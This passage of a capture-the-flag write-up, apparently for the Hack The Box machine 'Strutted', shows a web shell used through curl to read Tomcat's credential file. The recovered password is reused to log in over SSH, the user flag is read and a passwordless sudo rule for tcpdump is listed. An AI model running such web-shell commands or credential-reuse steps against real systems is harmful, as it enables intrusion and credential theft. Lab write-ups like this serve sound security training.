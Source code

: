 - User enumeration revealed a user `james`
- Directory enumeration revealed the file `/etc/tomcat/tomcat-users.xml`  which contains a password:

```bash
┌──(kali㉿kali)-[~]
└─$ curl -X GET "http://strutted.htb/cmd.jsp?cmd=cat+%2Fetc%2Ftomcat9%2Ftomcat-users.xml" --output - 

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: cat /etc/tomcat9/tomcat-users.xml<BR>
<?xml version="1.0" encoding="UTF-8"?>
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
</pre>
</BODY></HTML>                                                   
```

- We were able to SSH into the target machine using the credentials `james:IT14d6SSP81k`

```bash
┌──(kali㉿kali)-[~]
└─$ ssh james@strutted.htb
james@strutted.htb's password: 
james@strutted:~$ id
uid=1000(james) gid=1000(james) groups=1000(james),27(sudo)
```

### User Flag

```bash
james@strutted:~$ cat user.txt 
60884dcb72578e032d78a8874ef3e9df
```

## Privilege Escalation

### Sudo

```bash
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```
